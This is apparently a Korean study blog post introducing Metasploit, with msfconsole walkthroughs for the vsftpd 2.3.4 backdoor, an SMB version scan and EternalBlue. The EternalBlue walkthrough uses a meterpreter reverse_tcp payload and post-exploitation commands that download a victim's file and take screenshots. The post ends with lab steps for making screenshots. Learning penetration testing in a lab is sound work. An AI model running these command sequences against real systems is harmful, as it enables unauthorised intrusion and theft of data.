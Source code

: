 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-26 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
[여기에 Metasploit vsftpd 공격 성공 이미지 삽입]

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
[여기에 Metasploit SMB 스캔 결과 이미지 삽입]

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집, 프로세스 제어, 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

[여기에 Meterpreter 세션 획득 및 명령어 실행 이미지 삽입]

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Metasploit vsftpd 공격 성공 이미지 제작**

1.  (준비) 공격 대상 서버에 취약한 버전의 `vsftpd 2.3.4`를 설치하고 실행시켜 둡니다.
2.  공격자 PC에서 `msfconsole`을 실행합니다.
3.  위 `4. 사용 예시` 섹션에 있는 2번부터 6번까지의 명령어를 순서대로 `msfconsole`에 입력하고 실행합니다.
4.  마지막 `exploit` 명령이 성공하면, `Command shell session 1 opened` 라는 메시지와 함께 대상 서버의 쉘 프롬프트가 나타납니다.
5.  획득한 쉘에서 `whoami` 명령어를 입력하여 `root`가 출력되는 것을 보여줍니다.
6.  `msfconsole` 시작부터 `whoami` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 모두 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여줍니다.
    *   **선택:** `use exploit/unix/ftp/vsftpd_234_backdoor` 명령어 부분
    *   **설정:** `set RHOSTS 192.9.200.11` 명령어 부분
    *   **결과:** `Command shell session 1 opened` 메시지와 `whoami` 결과인 `root` 부분
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (SMB 스캔 결과)**

1.  (준비) `msfconsole`의 새 창을 열거나, 이전 세션에서 `back` 명령어로 초기 상태로 돌아옵니다.
2.  위 `5. 사용 예시 2`의 `search`부터 `run`까지의 명령어를 순서대로 입력합니다.
3.  `run` 명령이 성공하면 `Host is running ... (Samba ...)` 와 같이 대상 서버의 OS와 Samba 버전 정보가 포함된 결과가 출력됩니다.
4.  이 과정이 모두 포함된 터미널 화면을 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 `use auxiliary/...` 명령어와, 결과로 출력된 `Host is running...` 라인 전체에 하이라이트를 적용하여 저장합니다.

#### **이미지 3 제작 (Meterpreter 세션 획득 및 활용)**

1.  (준비) 공격 대상이 될 취약한 윈도우 가상머신(예: Metasploitable 3)을 준비한다.
2.  `msfconsole`에서 위 `6. 사용 예시 3`의 1단계 명령어를 순서대로 입력하여 공격을 실행한다.
3.  `exploit` 명령이 성공하면, `meterpreter session 1 opened` 메시지와 함께 `meterpreter >` 프롬프트가 나타난다.
4.  획득한 Meterpreter 세션에서 `sysinfo`와 `getuid` 명령어를 차례로 실행하여 시스템 정보와 `NT AUTHORITY\SYSTEM` 권한을 확인한다.
5.  `ps` 명령어를 실행하여 프로세스 목록이 출력되는 것을 보여준다.
6.  `msfconsole` 시작부터 `ps` 명령어 결과까지 모든 과정이 하나의 터미널 창에 순서대로 표시된 상태에서, 터미널 창 전체를 스크린샷으로 찍는다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  세 부분에 하이라이트를 적용하여 공격의 흐름을 명확히 보여준다.
    *   **설정:** `set RHOSTS`, `set LHOST` 등 옵션 설정 부분
    *   **세션 획득:** `meterpreter session 1 opened` 메시지 부분
    *   **명령 실행:** `sysinfo`, `getuid`, `ps` 명령어와 그 결과 부분
9.  수정된 이미지를 저장하여 게시글에 삽입한다.